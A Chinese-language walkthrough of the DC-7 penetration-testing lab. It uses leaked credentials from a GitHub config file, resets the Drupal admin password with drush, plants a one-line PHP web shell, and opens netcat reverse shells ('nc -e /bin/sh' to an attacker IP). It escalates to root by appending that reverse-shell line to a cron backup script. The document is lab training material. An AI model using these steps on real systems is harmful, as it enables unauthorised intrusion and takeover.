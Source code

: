 ```yaml
---
title: DC-7复现
---
```

# DC-7复现

## 描述

> DC-7是另一个专门建造的易受攻击的实验室，旨在获得渗透测试领域的经验。
>
> 虽然这不是一个过于技术性的挑战，但它并不容易。
>
> 虽然这是早期DC版本的逻辑进展（我不会告诉你是哪一个），但涉及一些新概念，但你需要自己弄清楚这些概念。:-)如果您需要诉诸暴力破解或字典攻击，您可能不会成功。
>
> 你需要做的，是“跳出框框”思考。
>
> 哇 盒子的“外面”。:-)
>
> 这个挑战的最终目标是获得根并阅读唯一的标志。
>
> Linux 技能和对 Linux 命令行的熟悉是必须的，对基本渗透测试工具的一些经验也是必须的。
>
> 对于初学者来说，谷歌可以提供很大的帮助，但你总是可以在@DCAU7发推文给我寻求帮助，让你再次前进。但请注意：我不会给你答案，相反，我会给你一个关于如何前进的想法。

## 信息收集

确定目标的**IP**，以及开放的端口

`nmap 192.168.71.0/24`

![image-20221201092525322](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20221201092525322.png)

访问80端口上的服务

![image-20221201093011739](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20221201093011739.png)

机翻

![image-20221201093141461](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20221201093141461.png)

根据这个提示，说不是技术性的问题，那就有可能是找线索，然后可以发现在脚标处有一个@DC7USER，用谷歌搜索进到了他的GitHub主页，在他的staffdb仓库中的config.php里发现了一个账号和密码，还有数据库的名字

```php
<?php
	$servername = "localhost";
	$username = "dc7user";
	$password = "MdR3xOgB7#dW";
	$dbname = "Staff";
	$conn = mysqli_connect($servername, $username, $password, $dbname);
?>
```

![image-20221201093608772](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20221201093608772.png)

## 漏洞利用

### 账号密码泄露利用

直接在网页登录，是失败的

![image-20221201093747135](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20221201093747135.png)

那就换一个思路，我们最开始扫描机器的时候，发现其开启了22端口，那就尝试ssh登录

```bash
ssh dc7user@192.168.71.129
```

登录成功

![image-20221201094354750](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20221201094354750.png)

在当前目录下，发现了两个文件夹**backups**和**mbox**，其中backups是有两个gpg结尾的文件，经过查阅得知这是一种加密文件的后缀；在mbox里记录着root的定时任务，其项目位于 `/opt/scripts/backups.sh`

![image-20221201095704000](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20221201095704000.png)

查看**backups.sh**里的内容

![image-20221201095822202](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20221201095822202.png)

因为是一个shell脚本，那就看是否够权限写入，并执行进行反弹shell

`ls -l`

发现并没有权限

![image-20221201100418322](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20221201100418322.png)

### drush修改密码

在**backups.sh**里，我们看到了**drush**命令，进行简单的了解后发现可以利用

drush部分命令：

```
查看用户信息
drush user-information admin	//查询是否存在admin
修改密码
drush upwd admin --password="1234"		//修改admin密码为1234
```

存在admin用户

![image-20221201101409140](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20221201101409140.png)

admin密码修改成功

![image-20221201101440524](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20221201101440524.png)

成功登录

![image-20221201101512704](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20221201101512704.png)

### 反弹shell

这个站的cms是Drupal8，它是不支持php代码的，需要添加模块

![image-20221201101820426](C:\Users\alpha\AppData\Roaming\Typora\typora-user-images\image-20221201101820426.png)

位置：**manage**->**extend**->**install new module**

可以选者在**intsall from a url**里面填入下载地址进行安装，也可以下载之后选择**Upload a module or theme archive to install**导入安装，我因为url导入不成功，就用上传的方式

下载地址：

```url
https://ftp.drupal.org/files/projects/php-8.x-1.x-dev.tar.gz
```

![image-20221201102310752](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20221201102310752.png)

回退到Extend界面进行安装

![image-20221201102628741](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20221201102628741.png)

然后进到content界面直接修改随便一个文件，写入一句话木马

![image-20221201102938629](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20221201102938629.png)

连接成功，利用蚁剑的虚拟终端进行反弹shell

![image-20221201103452414](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20221201103452414.png)

```
nc -lvvp 1234	//在攻击机上执行
nc -e /bin/sh 192.168.71.128 1234	//在受害机上执行
python -c 'import pty; pty.spawn("/bin/bash")'	//交互式shell
```

![image-20221201103751736](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20221201103751736.png)

## 提权

之前的提权方式都用不了，就只能换个思路，前面提到想用**backups.sh**进行反弹shell，发现www-data用户是有写入的权限的，那就同理利用其进行提权

可以直接在蚁剑里找到backups.sh直接加上 `nc -e /bin/sh 192.168.71.128 1234`

![image-20221201144758579](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20221201144758579.png)

也可以利用echo进行写入

```bash
echo 'nc -e /bin/sh 192.168.71.128 1234'>>/opt/scripts/backups.sh
```

```bash
cd ~
cat theflag.txt
```

## flag

![image-20221201144633041](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20221201144633041.png)
